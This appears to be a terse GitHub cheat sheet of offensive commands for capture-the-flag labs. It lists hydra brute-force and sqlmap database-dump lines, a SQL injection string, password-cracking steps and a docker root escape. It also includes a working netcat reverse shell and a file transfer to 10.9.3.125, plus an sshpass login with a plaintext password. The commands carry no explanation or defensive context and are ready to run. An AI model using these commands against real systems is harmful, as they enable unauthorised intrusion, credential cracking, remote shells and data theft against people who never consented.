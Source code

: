 ### Nmap
`nmap -sC -sV 10.10.105.34`
`nmap --script vuln ip -vv`
### No ICMP
`nmap -Pn 10.10.105.34`

### Generates hash for /etc/passwd(user should already exist)
`openssl passwd -1`

### for /etc/shadow
`mkpasswd -m sha-512 password`
`snap run john-the-ripper --wordlist=~/rockyou.txt hash`

### John
`/snap/bin/john-the-ripper.gpg2john`
`./zip2john 8702.zip > hash`  
`ssh2john.py id_rsa`

### Awk
`awk 'length($0)==10' rockyou.txt`

### Stegography 
`steghide extract -sf`
`stegcracker cute-alien.jpg ~/rockyou.txt`

### Hydra
`hydra -l <username> -P <path to wordlist> <IP> ssh`
`hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V`

### Reminder
`nikto`

### Wfuzz
`wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404`

`sshpass -p !4u2tryhack ssh username@host.example.com`

### Words on web page
`cewl`  

### Sqlmap
`sqlmap -r req.txt -p blood_group -D blood --dump-all`
`sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite`

### Stable rev shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f`

### Stabilize shell
`python3 -c "import pty;pty.spawn('/bin/bash')"`
`export TERM=xterm`
`//CTRL + Z to background`
`stty raw -echo;fg` 

### If docker in groups (may help may not)
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### Disclose subdomains(@dns-server)
`dig axfr hipflasks.thm @10.10.113.230`

### Mount samba share under username
`sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba`

### Simple SQLi
`' OR '1'='1' --`

### SQL list
https://github.com/payloadbox/sql-injection-payload-list.git

### NFS
`showmount --exports 10.10.41.139`
`mount 10.10.41.139:/opt/conf /media/nfs`

### Rsync
`rsync --list-only rsync://rsync-connect@10.10.41.139`

### GPG
`gpg --import key.asc`
`gpg --decrypt file.pgp`

### Samba
`smbclient -NL 10.10.215.0`
`smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous`

### Netcat recv and send
`nc -q 1 -l -p 7777 > runme`
`nc -q 1 10.9.3.125 7777 < /home/catlover/runme`

### Openssl & GPG
`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`
`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

`gpg --symmetric --cipher-algo CIPHER message.txt`
`gpg --output original_message.txt --decrypt message.gpg`
